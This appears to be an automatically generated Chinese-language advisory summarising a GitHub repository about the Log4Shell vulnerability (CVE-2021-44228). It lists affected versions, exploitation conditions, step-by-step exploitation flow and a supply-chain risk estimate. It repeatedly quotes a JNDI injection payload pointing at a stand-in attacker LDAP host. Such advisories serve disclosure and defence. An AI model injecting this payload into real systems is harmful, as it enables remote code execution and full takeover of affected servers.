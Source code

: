 ## CVE-2021-44228 - Apache Log4j2 Log4Shell RCE

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 🔥 치명적 (CVSS 10.0) - 远程代码执行，完全控制受影响系统

**影响版本:** 2.0-beta9 ~ 2.14.1

**利用条件:** 目标系统使用了存在漏洞的Log4j2版本，且允许Log4j2记录攻击者可控的输入（例如，HTTP请求头、用户输入等），消息lookup substitution is enabled

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，又名Log4Shell，是一个存在于Apache Log4j2中的远程代码执行漏洞。攻击者通过将恶意的JNDI lookup字符串（例如 `${jndi:ldap://attacker.com:1389/exploit}`）注入到Log4j2可以记录的任何输入中，即可触发该漏洞。

**有效性：**

提供的漏洞利用代码包含一个README.md文件，该文件描述了Log4Shell漏洞的原理、影响、利用方式、检测和缓解措施。其中包含一个利用示例 `${jndi:ldap://attacker.com:1389/exploit}`，表明该POC有效，可用于触发漏洞。

**利用方式：**

1.  攻击者构造包含恶意JNDI lookup字符串的Payload，例如 `${jndi:ldap://attacker.com:1389/exploit}`。
2.  攻击者将该Payload注入到应用程序可以记录的任何输入点，例如HTTP请求头（User-Agent，X-Forwarded-For等）、POST请求参数、Web表单字段等。
3.  应用程序使用Log4j2记录包含该Payload的日志条目。
4.  Log4j2在处理日志条目时，解析JNDI lookup字符串，并尝试连接到攻击者控制的LDAP服务器 `attacker.com:1389`。
5.  攻击者的LDAP服务器返回一个指向恶意Java类的URL。
6.  Log4j2下载并执行该恶意Java类，导致远程代码执行。

**投毒风险：**
该README.md 文件分析报告本身不包含恶意代码，但存在潜在的投毒风险，该风险主要来自用户在使用git clone 下载源码时，如果攻击者控制了welk仓库,或者使用docker build 从Dockerfile构建docker镜像时，攻击者可以在Dockerfile中植入恶意代码。因此，代码仓库或镜像来源不可信的情况下，可能存在潜在的风险。因此该仓库中存在投毒代码的可能性较低，但不能完全排除(10%).

**项目地址:** [mr-won/Log4shell](https://github.com/mr-won/Log4shell)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
